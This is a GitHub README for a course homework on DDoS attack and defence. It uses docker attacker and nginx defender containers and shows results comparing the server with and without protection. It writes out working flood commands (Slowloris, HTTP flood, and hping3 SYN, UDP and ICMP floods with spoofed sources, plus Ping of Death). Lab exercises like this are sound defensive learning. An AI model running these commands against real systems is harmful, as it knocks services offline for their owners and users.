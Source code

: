 # Homework #16 for Highload:Projector

### Fuck the Hack :)

Setup two docker containers:
- attacker container - there you need to write scripts that will implement 6 attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death)
- Defender container - ubuntu & nginx with simple website

Try to implement protection on Defender container

Launch attacker scripts and examine you protection


## Installation

```
git clone https://github.com/god-of-north/highload-homework-16.git
cd highload-homework-16
docker-compose build
```


## Attacker Tools

Enter to the ```attacker``` container to run attacker tools 
```
docker-compose run attacker bash
```

**Tools:**
- http-flood.sh - *HTTP Flood*
- icmp-flood.sh - *ICMP Flood*
- ping-of-death.sh - *Ping of Daeth*
- set-backend.sh - *Setting target as __unprotected__ NGINX server*
- set-defender.sh - *Setting target as __protected__ NGINX server*
- slowloris.sh - *Slowloris*
- syn-flood.sh - *SYN Flood*
- udp-flood.sh - *UDP Flood*


## Testing

### Slowloris
```
slowhttptest -c 2000 -H -g -o slowhttp -i 10 -r 200 -t GET -u ${TARGET_URL} -x 24 -p 3
```

Attack on NGINX server with DDoS protection **enabled**:
```
initializing:        0
pending:             0
connected:           571
error:               0
closed:              1429
service available:   YES
```

Attack on NGINX server with DDoS protection **disabled**:
```
initializing:        0
pending:             0
connected:           1029
error:               0
closed:              971
service available:   NO
```

```
curl -XGET http://localhost:5050
curl: (52) Empty reply from server
```

### HTTP Flood
```
siege -b -c250 -t60s ${TARGET_URL}
```
Attack on NGINX server with DDoS protection **enabled**:
```
{       "transactions":                         6053,
        "availability":                        64.61,
        "elapsed_time":                        35.35,
        "data_transferred":                   124.04,
        "response_time":                        1.15,
        "transaction_rate":                   171.23,
        "throughput":                           3.51,
        "concurrency":                        196.43,
        "successful_transactions":              6053,
        "failed_transactions":                  3316,
        "longest_transaction":                 17.02,
        "shortest_transaction":                 0.00
}
```
![pic](./assets/http-flood-protected.png)


Attack on NGINX server with DDoS protection **disabled**:
```
{       "transactions":                        16090,
        "availability":                       100.00,
        "elapsed_time":                        60.01,
        "data_transferred":                   458.74,
        "response_time":                        0.86,
        "transaction_rate":                   268.12,
        "throughput":                           7.64,
        "concurrency":                        231.01,
        "successful_transactions":             16091,
        "failed_transactions":                     0,
        "longest_transaction":                  7.12,
        "shortest_transaction":                 0.00
}
```
![pic](./assets/http-flood-unprotected.png)

### ICMP Flood
```
hping3 --flood --rand-source -1 -p ${TARGET_PORT} ${TARGET_IP}
```

### Ping of Daeth
```
fping -b 65500 ${TARGET_IP}
```

### SYN Flood
```
hping3 -c 20000 -d 120 -S -w 64 -p ${TARGET_PORT} --flood --rand-source ${TARGET_IP}
```

### UDP Flood
```
hping3 --flood --rand-source --udp -p ${TARGET_PORT} ${TARGET_IP}
```
